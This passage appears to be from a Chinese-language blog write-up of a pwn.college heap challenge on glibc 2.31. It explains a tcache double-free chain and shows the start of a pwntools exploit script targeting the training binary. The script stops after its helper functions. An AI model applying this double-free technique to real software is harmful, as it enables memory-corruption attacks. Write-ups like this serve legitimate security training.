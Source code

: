 这里我们需要研究一下 glibc-2.31 的源码（pwn.college 这一章用的都是 2.31）：[薛定谔的 free chunks: Double Free, Double Fun ?](/posts/pwn-notes/pwn-trick-notes/#薛定谔的-free-chunks-double-free-double-fun-)

由于我们有 scanf 功能，可以向 ptr 指向的地址处写入数据，也就是说我们能写入 data 区。scanf 遇到换行则认为输入结束，并将换行替换为 `\x00`。我们想让 ptr 在 tcachebin 中出现两次，就可以这么玩：`malloc -> free -> scanf -> free -> read_flag -> puts`。至于这条攻击链的具体原理就自己琢磨去吧，我这里就不再过多赘述了。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level4.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def malloc(size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Size: ", str(size).encode("ascii"))


def free():
    target.sendlineafter(b": ", b"free")


def puts():
    target.sendlineafter(b": ", b"puts")


def scanf(data):
    target.sendlineafter(b": ", b"scanf")
    target.sendline(data)


def read_flag():
    target.sendlineafter(b": ", b"read_flag")


def quit():
    target.sendlineafter(b": ", b"quit")


def main():
    launch()
```